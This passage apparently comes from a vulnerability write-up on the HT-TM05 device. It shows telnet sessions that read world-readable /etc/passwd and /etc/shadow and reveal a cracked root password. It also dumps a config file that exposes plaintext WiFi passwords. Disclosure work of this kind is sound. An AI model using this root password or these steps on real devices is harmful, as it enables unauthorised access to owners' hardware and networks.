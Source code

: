 while not easily guessable, the `root` password is trivial to obtain:

```
$ telnet 10.10.10.254
Trying 10.10.10.254...
Connected to 10.10.10.254.
Escape character is '^]'.

HT-TM05 login: admin
Password:
login: can't chdir to home directory '/data/UsbDisk1/Volume1'
$ ls -l /etc/passwd /etc/shadow
-rw-r--r--    1 root     root          406 Jan  1 00:02 /etc/passwd
-rw-r--r--    1 root     root          282 Jan  1 00:02 /etc/shadow
```

so.. they left `/etc/passwd` and `/etc/shadow` readable to anyone who can login - and the web app uses the same credential mechanism as telnet/underlying OS.

now that we've got it, 5 hours on a GCP v16 CPU instance, we find that the password behind `$1$yikWMdhq$cIUPc1dKQYHkkKkiVpM` is `20080826`.

and now, we can login to both the web app and telnetd as `root`:
```
$ telnet 10.10.10.254
Trying 10.10.10.254...
Connected to 10.10.10.254.
Escape character is '^]'.

HT-TM05 login: root
Password:
login: can't chdir to home directory '/root'
#
```

#### credential exposure - WiFi network and bridge

# TODO what are the perms on that file?

the contents of `/boot/tmp/etc/Wireless/RT2860/RT2860.dat` compromise:
  * plaintext password for device SSID
  * SSID of last/currently bridged WiFi network
  * plaintext password for last/currently bridged WiFi network

```
# cat /boot/tmp/etc/Wireless/RT2860/RT2860.dat
...
SSID1=free candy
...
WPAPSK1=foobarbaz
...
ApCliSsid1=test-network
ApCliWPAPSK=password
```
